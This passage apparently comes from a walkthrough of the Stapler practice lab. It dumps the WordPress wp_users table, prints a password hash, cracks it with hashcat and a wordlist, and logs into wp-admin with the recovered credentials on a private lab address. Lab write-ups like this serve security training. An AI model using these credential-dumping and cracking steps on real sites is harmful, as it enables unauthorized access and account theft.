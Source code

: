 ```mysql
USE wordpress;
SHOW TABLES;
SELECT * FROM wp_users;
```
![01-Stapler-14](00-Assets/01-Stapler-14.png)

```shell
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.
```
#### Haschcat
```shell
hashcat -m 400 john_hash /usr/share/wordlists/rockyou.txt --force

incorrect
```
- Now we have a username and its password

## Foothold
### WordPress Login
```shell
https://192.168.186.148:12380/blogblog/wp-admin/

john:incorrect
```
![01-Stapler-15](00-Assets/01-Stapler-15.png)
